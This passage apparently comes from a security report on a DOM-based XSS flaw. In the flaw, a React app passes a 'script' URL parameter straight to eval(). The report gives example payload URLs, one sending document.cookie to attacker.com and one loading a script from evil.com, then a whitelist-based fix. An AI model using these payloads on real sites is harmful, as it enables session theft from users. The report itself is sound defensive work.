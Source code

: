 2. **Data exfiltration:** `https://acme-corp.com/app?script=fetch('https://attacker.com/steal?data='+document.cookie)`
   This sends the victim's cookies to an attacker-controlled server.

3. **Complex attack:**
   ```
   https://acme-corp.com/app?script=var s=document.createElement('script');s.src='https://evil.com/malicious.js';document.body.appendChild(s);
   
```
   This loads a full external malicious script, allowing for more complex attacks.

**Technical Context:**

DOM-based XSS differs from reflected or stored XSS because the vulnerability exists entirely in the client-side code. The malicious payload isn't processed by the server at all - it's directly interpreted by the victim's browser.

In this React-based SPA, this vulnerability likely exists in a component that was intended to support dynamic functionality based on URL parameters, but was implemented unsafely. The core issue is the direct use of `eval()` without sanitizing or validating the input first.

# Remediation Steps
## Remove Use of eval() Function

**Priority**: P0

The most effective remediation is to completely eliminate the use of `eval()` and replace it with safer alternatives:

```javascript
// BEFORE - Vulnerable code
const queryParams = new URLSearchParams(window.location.search);
const dynamicCode = queryParams.get("script");

if (dynamicCode) {
  // Vulnerable: directly evaluates external input without sanitization
  eval(dynamicCode);
}

// AFTER - Remove eval() entirely and use a safer approach
const queryParams = new URLSearchParams(window.location.search);
const actionType = queryParams.get("action");

// Use a whitelist approach for allowed actions
const allowedActions = {
  "showProfile": () => displayUserProfile(),
  "viewSettings": () => navigateToSettings(),
  "loadDashboard": () => loadDashboardData()
};

// Only execute if the action is in our whitelist
if (actionType && allowedActions.hasOwnProperty(actionType)) {
  allowedActions[actionType]();
}

```
